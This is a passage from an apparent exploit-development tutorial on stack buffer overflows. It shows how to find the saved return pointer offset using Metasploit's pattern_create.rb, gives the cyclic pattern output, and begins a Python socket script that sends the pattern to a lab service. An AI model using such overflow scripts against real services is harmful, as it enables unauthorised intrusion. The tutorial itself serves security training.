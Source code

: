 \newpage
# Discover offsets

We have the ability to smash the Saved Return Pointer and put `"AAAA"` in to
`EIP`, but we need to know exactly how far in to our trove of `A`'s the four
bytes that ends up smashing the Saved Return Pointer is. The easiest way to do
this is using Metasploit's `pattern_create.rb`. If you're running Kali this
should be at either:

* `/usr/share/metasploit-framework/tools/pattern_create.rb`; or
* `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb`

Depending on how up to date your Kali's `metasploit-framework` package is.

If you're running Metasploit from a copy of Rapid7's git repository (as I do),
it's in `tools/exploits/`

Use `pattern_create.rb` to generate 1024 characters of cyclic pattern.

```
% ~/opt/metasploit-framework/tools/exploit/pattern_create.rb -l 1024

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1
Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3
Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5
Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7
Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9
Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1
An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3
Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5
Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7
At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9
Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1
Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3
Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5
Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7
Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9
Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0B
```

This is a handy dandy sequence of characters in which every "chunk" of four
sequential characters is unique. We can use it instead of our 1024 `A`'s and
check to see which four of them ends up in `EIP`.

\newpage

Updating our Python script to include the pattern:

```{.python .numberLines}
#!/usr/bin/env python3
import socket

RHOST = "172.17.24.132"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

buf = b""
buf += ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab"
  "8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8A"
  "d9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9"
  "Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai"
  "0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0A"
  "k1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1"
  "Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao"
  "2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2A"
```